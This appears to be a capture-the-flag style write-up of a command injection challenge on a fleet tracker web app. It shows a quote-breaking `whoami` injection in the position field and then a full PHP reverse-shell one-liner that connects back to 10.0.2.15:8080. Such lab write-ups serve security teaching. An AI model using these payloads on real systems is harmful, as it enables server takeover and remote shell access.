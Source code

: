 ## Command Injection Challenge
- Objective: Prove code execution
- Extra credit: Pop a shell
### Normal App Functionality
- A fleet tracker app
- List current fleet; registration plate, position, destination, and status
- Can change the status of the vehicle by entering the registration plate and position
- It shows the command executed after submitting a vehicle position
- Entering `ASH`, `50`, and `100` returns:
  
  ![image](https://github.com/user-attachments/assets/b134cf3a-884d-4aad-ac0d-933f6b7e2c50)

### Try Payloads for Different Behavior
- Since the positions are included in the output, I'll try putting the payload in those fields
- Noticing that the executed command includes a quote, I'll try starting the paload with a quote
- Enter `'; whoami #` results in `www-data` being returned as the result

  ![image](https://github.com/user-attachments/assets/df1c7b06-c4d9-4545-b91f-65c3bc05f5a9)

- Objective complete!

### Reverse Shell
- A bash reverse shell did not work
- Executing `ls` showed many PHP files, so I'll try a PHP reverse shell
- Enter `'; /usr/local/bin/php -r '$sock=fsockopen("10.0.2.15",8080);exec("/bin/sh -i <&3 >&3 2>&3");' #`:
  
  ![image](https://github.com/user-attachments/assets/2e73bd13-8fd0-4c22-8877-99b664a12cbf)

- Extra credit complete!

